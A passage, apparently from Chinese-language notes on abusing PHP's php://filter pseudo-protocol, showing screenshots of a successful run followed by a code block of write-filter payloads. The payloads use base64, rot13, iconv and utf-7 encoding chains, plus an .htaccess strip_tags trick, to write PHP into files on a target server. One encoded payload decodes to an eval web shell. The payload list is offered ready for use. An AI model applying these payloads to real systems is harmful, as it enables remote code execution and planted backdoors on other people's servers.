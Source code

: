 ![filter_write_3](.\php伪协议image\filter_write_3.md)

访问后成功执行php

![filter_write_4](.\php伪协议image\filter_write_4.png)

当然除了base64以外其他的编码也可以用常用杂糅方式

**注意：传参时记得url编码，不同编码可能会产生特殊字符，为了不必要的多次调试记得url编码**

```php
php://filter/write=convert.base64-encode/resource=1.php
php://filter/write=string.rot13/resource=1.php
// <?cuc cucvasb();?> -> <?php phpinfo();?>
php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=1.php
// convert.iconv.*编码器利用，payload用 echo iconv('UCS-2BE','UCS-2LE','<?php phpinfo();?>');来构造
php://filter/write=convert.iconv.UCS-4LE.UCS-4BE/resource=1.php // 必须构成2的倍数
php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php // 必须构成4的倍数
php://filter/convert.iconv.UCS-2LE.UCS-2BE|convert.base64-decode?/resource=1.php
// utf-7->utf-8->base64的组合拳利用PD9waHAgQGV2YWwoJF9HRVRbYV0pOz8%2B%2D --> <?php @eval($_GET[a]);?>
php://filter/write=PD9waHAgQGV2YWwoJF9HRVRbYV0pOz8%2B%2D|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=1.php
// 利用.htaccess文件和string.strip_tags绕过
php://filter/write=string.strip_tags/resource=.htaccess
```
